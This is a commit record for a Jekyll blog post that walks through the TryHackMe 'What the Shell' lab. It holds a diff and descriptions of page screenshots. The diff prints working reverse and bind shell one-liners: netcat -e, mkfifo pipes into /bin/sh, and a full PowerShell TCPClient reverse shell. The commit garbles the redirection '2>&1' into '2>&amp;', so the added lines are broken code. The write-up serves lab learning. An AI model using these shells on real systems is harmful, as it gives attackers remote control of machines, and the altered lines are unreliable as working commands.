

Before and after one commit to 4n3i5v74/4n3i5v74.github.io, a Jekyll site: the page built from _posts/2021-03-16-tryhackme-what-the-shell.md, in a window 1280 px wide and 900 px high, scrolled down 7635 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Modified

```diff
--- a/_posts/2021-03-16-tryhackme-what-the-shell.md
+++ b/_posts/2021-03-16-tryhackme-what-the-shell.md
@@ -190,14 +190,14 @@ The following example provides shell on target with `bash`. The first command pr
 nc <local-ip> <port> -e /bin/bash{% endraw %}{% endcapture %} {% include code.html code=code %}
 
 An alternate method to create reverse/bind shell listener with `bash` without using `-e` option of `netcat`.
-{% capture code %}{% raw %}mkfifo /tmp/f; nc -lvnp <port> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
-mkfifo /tmp/f; nc <local-ip> <port> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f{% endraw %}{% endcapture %} {% include code.html code=code %}
+{% capture code %}{% raw %}mkfifo /tmp/f; nc -lvnp <port> < /tmp/f | /bin/sh >/tmp/f 2>&amp;; rm /tmp/f
+mkfifo /tmp/f; nc <local-ip> <port> < /tmp/f | /bin/sh >/tmp/f 2>&amp;; rm /tmp/f{% endraw %}{% endcapture %} {% include code.html code=code %}
 
 
 ### Powershell listener
 
 The following is a one-liner to be used in `cmd` which invokes a `reverse shell` from target.
-{% capture code %}{% raw %}powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"{% endraw %}{% endcapture %} {% include code.html code=code %}
+{% capture code %}{% raw %}powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&amp; | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"{% endraw %}{% endcapture %} {% include code.html code=code %}
 
 
 ## Task 9 - msfvenom
@@ -383,7 +383,7 @@ An output similar to below will be obtained, which mentions the listener is acti
 {% capture code %}{% raw %}Listening on [0.0.0.0] (family 0, port 443){% endraw %}{% endcapture %} {%include code.html code=code %}
 
 Activate the `reverse shell` from the target.
-{% capture code %}{% raw %}mkfifo /tmp/f ; nc <local-ip> 443 </tmp/f | /bin/sh > /tmp/f 2>&1 ; rm -f /tmp/f{% endraw %}{% endcapture %} {%include code.html code=code %}
+{% capture code %}{% raw %}mkfifo /tmp/f ; nc <local-ip> 443 </tmp/f | /bin/sh > /tmp/f 2>&amp; ; rm -f /tmp/f{% endraw %}{% endcapture %} {%include code.html code=code %}
 
 The `reverse shell` in attacking machine would have spawned at the `netcat` listener. Use `python` to spawn `bash` shell. Background the `netcat` listener to sanitise the `reverse shell`.
 {% capture code %}{% raw %}Connection from <target-ip> 59568 received!
@@ -543,7 +543,7 @@ msf5 exploit(multi/handler) > exploit -j
 [*] Started reverse TCP handler on <local-ip>:443 {% endraw %}{% endcapture %} {%include code.html code=code %}
 
 Activate the `reverse shell` from the attacker.
-{% capture code %}{% raw %}mkfifo /tmp/f ; nc -nv <local-ip> 443 < /tmp/f | /bin/sh > /tmp/f 2>&1 ; rm -rf /tmp/f{% endraw %}{% endcapture %} {%include code.html code=code %}
+{% capture code %}{% raw %}mkfifo /tmp/f ; nc -nv <local-ip> 443 < /tmp/f | /bin/sh > /tmp/f 2>&amp; ; rm -rf /tmp/f{% endraw %}{% endcapture %} {%include code.html code=code %}
 
 An output similar to below will be obtained indicating the connection established to `msfconsole` terminal.
 {% capture code %}{% raw %}(UNKNOWN) [<local-ip>] 443 (https) open{% endraw %}{% endcapture %} {%include code.html code=code %}
@@ -580,7 +580,7 @@ msf5 exploit(multi/handler) > exploit -j
 [*] Started reverse TCP handler on <local-ip>:443 {% endraw %}{% endcapture %} {%include code.html code=code %}
 
 Activate the `reverse shell` from the attacker.
-{% capture code %}{% raw %}mkfifo /tmp/f ; nc -nv <local-ip> 443 < /tmp/f | /bin/sh > /tmp/f 2>&1 ; rm -rf /tmp/f{% endraw %}{% endcapture %} {%include code.html code=code %}
+{% capture code %}{% raw %}mkfifo /tmp/f ; nc -nv <local-ip> 443 < /tmp/f | /bin/sh > /tmp/f 2>&amp; ; rm -rf /tmp/f{% endraw %}{% endcapture %} {%include code.html code=code %}
 
 An output similar to below will be obtained indicating the connection established to `msfconsole` terminal.
 {% capture code %}{% raw %}(UNKNOWN) [<local-ip>] 443 (https) open{% endraw %}{% endcapture %} {%include code.html code=code %}
```
